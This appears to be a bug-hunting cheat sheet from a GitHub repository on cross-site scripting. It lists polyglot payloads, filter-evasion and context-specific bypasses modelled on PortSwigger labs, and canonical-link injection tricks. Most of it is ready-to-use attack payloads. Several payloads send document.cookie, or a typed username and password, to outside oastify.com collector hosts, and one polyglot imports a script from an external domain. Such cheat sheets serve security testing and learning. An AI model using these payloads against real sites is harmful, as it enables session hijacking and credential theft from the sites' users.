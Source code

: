 # Contents
* [Testing Alert](#Testing-Alert)
* [For html Injection](#For-html-Injection)
* [Angle brackets HTML-encoded bypass](#Angle-brackets-HTML-encoded-bypass)
* [Reflected XSS into a JavaScript string with single quote and backslash escaped](#Reflected-XSS-into-a-JavaScript-string-with-single-quote-and-backslash-escaped)
* [Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped](#Reflected-XSS-into-a-JavaScript-string-with-angle-brackets-and-double-quotes-HTML-encoded-and-single-quotes-escaped)
* [Tags and Attribute Block Bypass](#Tags-and-Attribute-Block-Bypass)
* [Reflected XSS with some SVG markup allowed](#Reflected-XSS-with-some-SVG-markup-allowed)
* [Reflected XSS in canonical link tag](#Reflected-XSS-in-canonical-link-tag)

## One Payload For Testing All Kinds of XSS
```
JavaScript​://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*
<!--</Title/<​/Style/<​/Script/</textArea/</iFrame>
\74k<K/contentEditable/autoFocus/OnFocus​=
/*${/*/;{/**/(import(/https:\\x55.is/.source))}//\76-->
```
```
JavaScript​://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*
</Title/<​/Style/<​/Script/</textArea/</iFrame>
\74k<K/contentEditable/autoFocus/OnFocus​=
/*${/*/;{/**/(import(/https:\\x55.is/.source))}//\76
```
**Note**
  1. If < and > symbol reflecting in source code without encoding, XSS possible.
  2. If ' or " symbol reflecting in source code without encoding, XSS possible.

## Payload for stealing cookies
```js
<script>
fetch('https://m1ofpkz2aozr1riy4z987vbc137uvnjc.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
## Payload for stealing credentials
```js
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://m1ofpkz2aozr1riy4z987vbc137uvnjc.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
#### External source of payloads
https://github.com/payloadbox/xss-payload-list
##### For filter bypass
https://github.com/terjanq/Tiny-XSS-Payloads
## XSS with filter evasion
```
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```
##### XSS Filter Evasion Cheat Sheet
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
### For html Injection
```
<h1>cyborg71</h1>
"><h1>cyborg71</h1>
<a href="https://google.com"></a>
```
# Testing Alert
```js
<script>alert(1337)</script>
><script>alert(1337)</script>
<sCrIpt>alert(1337)</sCripT>
">cyborg71<script>alert(1337)</script>
<svg/ onload=alert(1337)//
<Svg/OnLoad=(confirm)(1337)<!--
<img src=x onerror=alert(1337)>
</script><img src=x onerror=alert(1337)>
<iframe src="javascript:alert(1337)">
';alert(1337)//
${alert(1337)}
<custom-tag onmouseover='alert(1337)'>
/?x=y'%09onclick='alert(1337)'%09accessKey='x'
/?'accesskey='x'onclick='alert(1337)
javascript:alert(1337)
y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1337)%3E
```
Here, ```%09``` represents the horizontal tab character and ```%0A``` represents the newline.
<br>
![Screenshot from 2024-06-22 21-24-55](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/a4b3b27e-3e78-438e-90c1-38f3986f5a79)

![Screenshot from 2024-06-22 21-30-13](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/cd6ea4c0-17df-448a-bc1a-caa4d293ee80)

![Screenshot from 2024-06-22 21-34-37](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/2938507e-12e8-438d-ad7d-d1ec7d65a963)

![Screenshot from 2024-06-22 21-36-45](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/06045884-2e15-4998-bfe6-057cf34dbe92)

![Screenshot from 2024-06-22 21-38-04](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/925458b2-619b-4545-a675-81ee043cd00c)

#### For testing.
```js
"><h1>cyborg.71</h1>
<script onclick="alert(1337)">
<a href="javascript:alert('XSS')">Click me</a>
<img src=https://i.imgflip.com/8uo0t9.jpg>
```
## Angle brackets HTML-encoded bypass
### Reflected XSS into HTML attribute with angle brackets HTML-encoded
Inject ```<xss123>'"``` and see if the angle ```<>``` brackets are encoded with ```&lt;``` and ```&gt;```.
  ![Screenshot from 2024-06-12 22-48-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/4bb3d36b-cef6-49ae-ab0d-a4c6ad9c8553)<br>
If this is the case, you should inject this payloads. 
```js
" onclick="alert(1337)
" autofocus="alert(1337)
" autofocus onfocus="alert(1337)
" onmouseover="alert(1)
```
![Screenshot from 2024-06-22 22-10-29](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5f0c53d6-0489-483d-a82d-373456ee9233)
### Reflected XSS into a JavaScript string with angle brackets HTML encoded
Inject ```<xss123>'"``` and see if your payload encoded in a javascript code.<br>
![Screenshot from 2024-06-13 00-19-30](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/9180969c-2299-4adf-9c4a-a05e97629938)<br>
In this case you should try this payload to braek the code to inject maliciuos payload.
```js
xss';alert(1);'xss
'-alert(1)-'
```
Finally the code will look like this after response.
![Screenshot from 2024-06-23 19-29-18](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5387641e-5ee7-4dca-89a3-e1253a426bc5) <br>
#### Reflected XSS into a JavaScript string with single quote and backslash escaped
In some scenarios the payload might not work because of single quote and backslash escape.
![Screenshot from 2024-07-01 04-27-49](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/af236bde-554a-45f9-8e61-77f4409e5ef4) <br>
In this situation, you close the script tag inject your payload.
```
</script><img src=x onerror=alert(1337)>
```
And then the final code will look like this after response.
![Screenshot from 2024-07-01 04-37-54](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/8221e31d-5597-464b-8ed2-2b4d32368b9d)
#### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
Sometimes previous method might not work because of angle brackets and double quotes HTML-encoded and single quotes escaped.
![Screenshot from 2024-07-01 21-47-37](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/320694fa-5d32-468d-bab3-62bc18829582)<br>
In this case you can try this payload
```
\';alert(1337)//
\'-alert(1)//
```
And the final code will look like this.
<br>![Screenshot from 2024-07-01 21-50-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/3c75b4b8-173c-4bf7-8c3b-bc87dbc90386)
## Tags and Attribute Block Bypass
### Reflected XSS into HTML context with most tags and attributes blocked
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked. Bruteforce for getting allowed tags.
```
"><body onresize=alert(1337)>
```
### Reflected XSS into HTML context with all tags blocked except custom ones
###### Key Note
```tabindex="1"```, ```id="a1"```, ```#a1```
```
<custom-tag tabindex="1" onfocus='alert(1337)' id="a1">#a1
<xss id=a1 onfocus=alert(document.cookie) tabindex=1>#a1
```
## Reflected XSS with some SVG markup allowed
```
"><svg><animatetransform onbegin=alert(1337)></animatetransform></svg>
"><svg><animatetransform onbegin='alert(1337)'></animatetransform></svg>
```
## Reflected XSS in canonical link tag
Make your custom parameter in a url path such as httpx://a.com/?```whoami=cyborg71```.
![Screenshot from 2024-07-01 03-55-35](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/67df34d4-e22f-49cf-a1f0-786a9113b316)<br>
After this, If we get a canonical link in page source, then there might be a xss vulnerability exists. In this case try this payloads.
```
/?whoami=cyborg71'%09onclick='alert(1337)'%09accessKey='x'
/?'accesskey='x'onclick='alert(1337)
```
Now, use this keys to get reflection.

    On Windows: ALT+SHIFT+X
    On MacOS: CTRL+ALT+X
    On Linux: Alt+X
#### For cookie grabbing
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```
